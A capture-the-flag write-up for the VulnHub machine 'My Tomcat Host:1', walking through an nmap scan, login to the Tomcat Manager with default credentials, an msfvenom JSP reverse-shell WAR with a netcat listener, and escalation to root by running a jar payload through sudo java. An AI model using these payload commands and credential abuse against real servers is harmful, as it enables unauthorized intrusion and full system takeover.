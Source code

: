 # My Tomcat Host:1 - VulnHub

[My Tomcat Host:1 VulnHub link](https://www.vulnhub.com/entry/my-tomcat-host-1,457/)

### arp scan to find out our machine ip address on the network
![arp-scan](images/MyTomcatHost-1/arp-scan.png)

we found out our target ip address is 192.168.56.102

## Nmap
first we need to check what ports and services are available for us in the target machine using nmap tool:
![nmap-scan](images/MyTomcatHost-1/nmap-scan.png)

*command exaplain:*
*nmap* - network scanner tool used to discover hosts and services on machines.
*-sC* - preforming script scan using default scripts.
*-sV* - preforming service version detection.
*-oA* - output in all formats.
*-Pn* - treating the host as online - skip host discovery (it was necessary for nmap scan on this machine).

it is recommanded to scan the machine at the background for all ports while enumerating the machine, since all ports scan found the same port I wont show it.

from the nmap scan we discovered 2 ports are open:
*port 22* - ssh OpenSSH.
*port 8080* - http Apache Tomcat 9.0.31.

## Apache Tomcat:
if we browse to the the link:
 http://192.168.56.102:8080/
we got the Tomcat's welcome screen:
![tomcat-welcome-screen](images/MyTomcatHost-1/tomcat-welcome-screen.png)
if we try to enter the Manager App we get a authentication request:
![tomcat-auth-req](images/MyTomcatHost-1/tomcat-auth-req.png)
after searching the default username and password of tomcat version 9/8 on goole we found:
username: tomcat
password: tomcat

and we got in!
![tomcat-manager](images/MyTomcatHost-1/tomcat-manager.png)
now from the manager page we can uplaod new service applications to the server.
lets upload a java WAR file reverse shell to get a shell to the machine.

## Reverse shell:
first lets create a reverse shell in java to WAR file using msfvenom and run netcat listener on port 1234:
![reverse-shell-create](images/MyTomcatHost-1/reverse-shell-create.png)

*command explain:*
*msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.56.102 LPORT=1234 -f war > shell.war*
*msfvenom* - rapid7 (creators of metasploit tool) tool for payload generation.
*-p* - payload to use.
*LHOST* - attacker ip address.
*LPORT* - attacker ip port.
*-f* - output format.
generating payload into shell.war file.

*nc -lvp 1234*
*nc* - netcat, tcp and udp tool for connections and listens.
*-l* - listen for connections.
*-v* - verbose output.
*-p* - port number.

let's upload the war file into the tomcat website using the service war upload in the manager page:
![upload-war-file](images/MyTomcatHost-1/upload-war-file.png)

if we browse to the service url: http://192.168.56.102:8080/shell/
we got a shell!
let's get a normal shell using python pty:
![foothold-shell](images/MyTomcatHost-1/reverse-shell-foothold.png)

let's see our sudo allowed commands:
![sudo-commands](images/MyTomcatHost-1/sudo-commands.png)
we can run java as root!
lets use the same method we got the reverse shell to get a root access but this time we create a jar file.
we send the jar file to the target machine using python SimpleHTTPServer and wget in tmp folder ( we got write permissions), using metasploit to connect to the reverse shell:
*on the attacker machine:*
![reverse-shell-send](images/MyTomcatHost-1/reverse-shell-send.png)
*on the target machine:*
![wget-revershell](images/MyTomcatHost-1/wget.png)

*fire up metasploit and set up the exploit:*
![msf](images/MyTomcatHost-1/msf.png)
*run the jar file in th target machine:*
![run-jar](images/MyTomcatHost-1/run-jar.png)

and we got root access!!
![root](images/MyTomcatHost-1/root.png)
